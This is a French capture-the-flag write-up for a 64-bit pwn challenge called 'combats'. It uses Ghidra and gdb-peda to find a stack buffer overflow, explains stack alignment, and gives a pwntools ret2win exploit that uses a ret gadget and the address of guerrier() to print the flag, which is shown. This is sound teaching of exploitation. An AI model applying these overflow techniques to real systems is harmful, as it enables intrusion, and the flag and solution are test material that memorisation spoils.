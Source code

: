 # WriteUp

## Analyse de l'ELF

```bash
$ checksec combats
[*] '/tmp/combats'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

En décompilant via Ghidra, nous voyons 2 fonctions intéressantes, vulnerable et guerrier :

![Liste des fonctions](combats1.png)

La fonction main() ne semble pas appeler guerrier() :

![Décompilation de main()](combats2.png)

La fonction guerrier() est intéressante puisqu'elle nous permet d'exécuter un "cat flag.txt" :

![Décompilation de guerrier()](combats3.png)

La fonction vulnerable() déclare une variable de 128 octets mais semble en stocker  bien plus...

![Décompilation de vulnerable()](combats4.png)

Regardons cela dans gdb en insérant une large entrée :

```bash
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'
gdb-peda$ r
Starting program: /tmp/combats
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Ceux qui osent défier l'esprit du combat doivent être prêts à tout risquer. Le moindre faux mouvement peut vous conduire à la défaite. Préparez-vous, car le combat sera rude.
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x100
RBX: 0x0
RCX: 0x7ffff7ea07e2 (<__GI___libc_read+18>:     cmp    rax,0xfffffffffffff000)
RDX: 0x100
RSI: 0x7fffffffdbf0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
RDI: 0x0
RBP: 0x6c41415041416b41 ('AkAAPAAl')
RSP: 0x7fffffffdc78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
RIP: 0x401240 (<vulnerable+67>: ret)
R8 : 0xb8
R9 : 0x7ffff7fc9040 (<_dl_fini>:        endbr64)
R10: 0x7ffff7d925e8 --> 0xf001200001a64
R11: 0x246
R12: 0x7fffffffdda8 --> 0x7fffffffe02d ("/tmp/combats")
R13: 0x401241 (<main>:  push   rbp)
R14: 0x403df0 --> 0x401150 (endbr64)
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10207 (CARRY PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401239 <vulnerable+60>:    call   0x401070 <read@plt>
   0x40123e <vulnerable+65>:    nop
   0x40123f <vulnerable+66>:    leave
=> 0x401240 <vulnerable+67>:    ret
   0x401241 <main>:     push   rbp
   0x401242 <main+1>:   mov    rbp,rsp
   0x401245 <main+4>:   sub    rsp,0x10
   0x401249 <main+8>:   mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0008| 0x7fffffffdc80 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0016| 0x7fffffffdc88 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0024| 0x7fffffffdc90 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0032| 0x7fffffffdc98 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0040| 0x7fffffffdca0 ("AuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0048| 0x7fffffffdca8 ("AAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0056| 0x7fffffffdcb0 ("ZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401240 in vulnerable ()
```

Nous voyons que nous parvenons à écrire sur $rsp à l'offset 136, cela signifie que nous contrôlons l'adresse de la fonction suivant l'exécution de la fonction vulnerable() (après son ret). Voyons à quel offset :

```bash
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 128
Registers point to pattern buffer:
[RSI] --> offset 0 - size ~203
[RSP] --> offset 136 - size ~194
[...]
```

Nous devons aussi vérifier si la stack est bien alignée, en effet, si la valeur de $rsp n'est pas divisible par 0x10 (16 en hexadécimal), la suite de l'exécution ne se passera pas comme nous le souhaiterions en fonction de l'adresse de la fonction qui se retrouvera au sommet de la pile.

<details>
  <summary>**Pourquoi aligner la stack ?**</summary>

Lorsque nous exploitons une vulnérabilité de buffer overflow pour rediriger l'exécution vers une fonction spécifique comme ```guerrier()```, il est crucial de prendre en compte l'alignement de la pile (stack) pour assurer le bon fonctionnement du programme.

Dans l'architecture x86_64, la convention d'appel (ABI - Application Binary Interface) stipule que le pointeur de pile (```$rsp```) doit être aligné sur 16 octets avant l'appel d'une fonction. Cet alignement est nécessaire car de nombreuses instructions SSE et certaines fonctions de la bibliothèque standard C supposent que la pile est correctement alignée. Si cet alignement n'est pas respecté, cela peut entraîner des comportements indéfinis, des plantages ou des erreurs d'exécution.

Dans notre cas, en écrasant $rsp avec l'adresse de la fonction ```guerrier()```, nous redirigeons effectivement le flux d'exécution vers cette fonction. Cependant, le buffer overflow et l'écrasement du pointeur de pile peuvent désaligner la pile. Cela signifie que lorsque ```guerrier()``` est appelée, la pile n'est plus alignée sur 16 octets comme l'exige l'ABI.

Lorsque ```guerrier()``` exécute ```puts("Félicitations, jeune guerrier, votre bravoure mérite les honneurs...")```, cette fonction de la bibliothèque standard s'attend à ce que la pile soit correctement alignée. Si ce n'est pas le cas, elle peut fonctionner partiellement (afficher "Félicitations, jeune guerrier, votre bravoure mérite les honneurs...") mais rencontrer des problèmes lors d'appels internes ou de l'exécution d'instructions SSE, ce qui peut entraîner un arrêt du programme ou sa sortie prématurée après le ```puts()```.

Pour résoudre ce problème d'alignement, il est nécessaire de :

* Ajuster l'alignement de la pile : Modifier notre payload pour ajouter du remplissage (padding) afin de réaligner ```$rsp``` sur un multiple de 16 octets avant l'appel à ```guerrier()```. Cela garantit que toutes les fonctions appelées au sein de ```guerrier()``` trouvent la pile dans l'état attendu.
* Utiliser une autre méthode d'exploitation : Injecter directement l'adresse des instructions qui préparent les arguments pour ```system()``` et effectuer l'appel peut contourner le problème d'alignement, car nous contrôlons précisément l'état de la pile et pouvons nous assurer qu'elle est correctement alignée.

En résumé, le souci d'alignement de la pile provient du fait que les conventions d'appel en x86_64 exigent un alignement spécifique pour garantir le bon fonctionnement des fonctions. Ne pas respecter cet alignement lors de l'exploitation d'un buffer overflow peut conduire à des comportements imprévus ou à des plantages, ce qui nécessite des ajustements spécifiques dans notre méthode d'exploitation pour assurer la réussite de l'attaque.

</details>


```bash
gdb-peda$ p/x $rsp
$1 = 0x7fffffffdc78
```

0x7fffffffdc78 % 0x10 = 0x8, nous devrons donc aligner la stack avant d'appeler l'adresse d'une fonction, au hasard guerrier() 😅. Pour cela, il suffit d'exécuter une instruction ret avant de spécifier l'adresse de guerrier() dans le payload.

## Récupération d'un gadget ret

La pile étant non exécutable (NX) et l'ASLR étant sûrement activée, nous devons trouver un gadget ret dans la section statique du programme.

```bash
❯ ROPgadget --binary combats | grep ret
[...]
0x000000000040101a : ret
[...]
```

## Récupération de l'adresse de la fonction "guerrier"

```bash
❯ readelf -s combats | grep guerrier
    30: 00000000004011d8    37 FUNC    GLOBAL DEFAULT   14 guerrier
```

Il suffit donc de remplir le buffer avec 136 octets de n'importe quoi, puis l'adresse vers ret (0x40101a) pour aligner la pile puis l'adresse vers guerrier() (0x4011d8) pour qu'elle soit appelée.

## Exploit

```python
#!/usr/bin/env python3

import sys
from pwn import *

context(arch="amd64", os="linux", endian="little", word_size=64)

p = remote("challenges.hackagou.nc", 5003)

guerrier_addr = 0x4011d8
ret_addr = 0x40101a

payload = b'A' * 136
payload += p64(ret_addr)
payload += p64(guerrier_addr)

p.readuntil(b'> ')
p.sendline(payload)
p.interactive()
```
```bash
$ python pwn-combats.py
[+] Opening connection to challenges.hackagou.nc on port 5003: Done
[*] Switching to interactive mode
Félicitations, jeune guerrier, votre bravoure mérite les honneurs...
OPENNC{L3_GU3RR13r_c0mb47_4v3C_H0nN3uR.}
[*] Got EOF while reading in interactive
```
